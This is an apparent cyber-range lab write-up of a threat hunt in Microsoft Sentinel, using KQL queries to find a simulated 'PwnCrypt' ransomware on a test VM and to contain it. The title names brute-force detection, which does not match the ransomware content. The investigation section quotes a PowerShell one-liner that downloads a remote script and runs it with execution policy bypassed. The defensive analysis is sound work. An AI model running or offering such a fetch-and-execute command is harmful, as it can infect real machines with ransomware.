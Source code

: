 

# Virtual Machine Brute Force Detection 
## 🛡️ Incident Response: Brute-Force Attempts Detected

# Objective:
Identify and analyze potential brute-force logon attempts across the environment.

---
# Tools & Technology:
- Azure Virtual Machine
- Microsoft Sentinel
- Log Analytics Workspace
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
  
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Goal:
A newly identified ransomware variant known as PwnCrypt has been reported in the wild. This strain uses a PowerShell-based payload to encrypt files on compromised systems with AES-256 encryption. It specifically targets directories such as C:\Users\Public\Desktop, appending a .pwncrypt tag to file names (e.g., hello.txt becomes hello.pwncrypt.txt). Due to the potential risk of this ransomware spreading within the corporate environment, the CISO has requested a proactive investigation across the organization’s systems.


### Hypothesis:
Given the organization's relatively immature security posture—particularly the lack of user awareness training—there is a credible concern that the ransomware may already be present within the network. The investigation should begin by searching for known indicators of compromise (IOCs), such as files containing the .pwncrypt string in their names.


## 3. Data Collection
### Data Sources Queried:
#### DeviceFileEvents
```kql
DeviceFileEvents
| take 20
```
![zero1](https://github.com/user-attachments/assets/e8264fa2-66b3-471d-ac3f-9c84f497029d)

```kql
DeviceFileEvents
| where DeviceName == "fe-vmlab"
| order by Timestamp desc 

```
![zero2](https://github.com/user-attachments/assets/45932041-4d9e-4f3b-b0f9-536382eee67c)



## 4. Data Analysis

#### DeviceFileEvents
```kql
let VMName = "fe-vmlab";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains "_pwncrypt"
| order by Timestamp desc
```

![zero-day](https://github.com/user-attachments/assets/c91508e3-0f13-4170-a35e-53276ee4b864)

#### DeviceProcessEvents
```kql
let VMName = "fe-vmlab";
let specificTime = datetime(2025-06-21T17:21:52.5530575Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc

```

![zero4](https://github.com/user-attachments/assets/c05a2b44-f070-4ef9-9dee-fffab6fe2fd5)

#### Findings

Upon reviewing the PowerShell script, it was observed that it performs the following actions:

- Downloads another PowerShell script from a GitHub repository

- Saves the downloaded script to C:\ProgramData\pwncrypt.ps1

- Executes the script while bypassing the system’s configured execution policy

![zero5](https://github.com/user-attachments/assets/2d747650-a6d6-4b26-9e0f-77b94ef44264)



## 5. Investigation

### Initial Discovery
•	Source of Threat: PowerShell command run locally on the host:
```ps
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

### Observed Behavior: 
Files on the desktop were encrypted with _pwncrypt added to their names (e.g., report.docx_pwncrypt.docx).
#### Indicators of Compromise (IOCs)
-	File name patterns: *pwncrypt*
-	Command-line execution from PowerShell
-	Location: C:\ProgramData\pwncrypt.ps1
-	Network activity: None observed during encryption window
####  Timeline of Events

| Time (UTC)    | Event                                                 |
| ------------- | ----------------------------------------------------- |
| 17:21:52      | `.pwncrypt` file detected in `DeviceFileEvents`       |
| ±3 mins       | PowerShell script downloaded and executed from GitHub |
| Immediate     | Files began being encrypted and renamed               |
| Shortly after | Host `fe-vmlab` was isolated from the network         |


## 6. Response
### Actions Taken:

- Isolated the host from the network. 
- Reimaging of the affected endpoint.


## 7. MITRE ATT&CK Mapping

- T1059.001 – PowerShell  
- T1204.002 – User Execution: Malicious File  
- T1105 – Ingress Tool Transfer  
- T1486 – Data Encrypted for Impact  
- T1005 – Data from Local System  
- T1036 – Masquerading (potential)  
- T1027 – Obfuscated Files or Information (potential)


## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Device Action: Ticket submitted for full rebuild



